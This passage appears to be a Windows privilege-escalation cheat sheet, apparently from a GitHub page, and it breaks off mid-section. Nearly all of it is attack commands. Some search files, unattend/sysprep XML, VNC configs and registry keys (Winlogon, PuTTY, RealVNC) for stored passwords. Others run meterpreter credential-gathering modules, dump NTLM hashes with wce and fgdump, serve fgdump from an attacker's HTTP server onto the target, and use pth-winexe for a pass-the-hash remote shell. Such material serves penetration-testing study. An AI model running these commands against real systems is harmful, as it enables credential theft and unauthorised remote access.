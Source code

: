 Find all passwords in all files.

    $ findstr /spin "password" *.*

    $ findstr /spin "password" *.*

These are common files to find them in. They might be base64-encoded. So look out for that.

    $ type c:\sysprep.inf
    type c:\sysprep\sysprep.xml
    type c:\unattend.xml
    type %WINDIR%\Panther\Unattend\Unattended.xml
    type %WINDIR%\Panther\Unattended.xml

    $ dir c:*vnc.ini /s /b
    dir c:*ultravnc.ini /s /b
    dir c:\ /s /b | findstr /si *vnc.ini

Stuff in the registry:

    $ reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
    reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
    reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
    reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

Search for password in registry

    $ reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s

Using meterpreter:

    > post/windows/gather/credentials/gpp
    > post/windows/gather/enum_unattend

## EoP 4: Pass the hash

Pass The Hash allows an attacker to authenticate to a remote target by using a valid combination of username and NTLM/LM hash rather than a cleartext password.

Windows hash format:

    user:group:id:ntlmpassword::

You can do a hash dump in the affected system running:

    wce32.exe -w
    wce64.exe -w
    fgdump.exe

Download and run fgdump.exe on the target machine.

     $ cd /usr/share/windows-binaries/fgdump; python -m SimpleHTTPServer 80

    $ pth-winexe -U DOMAIN/user%hash //$ip cmd

or:
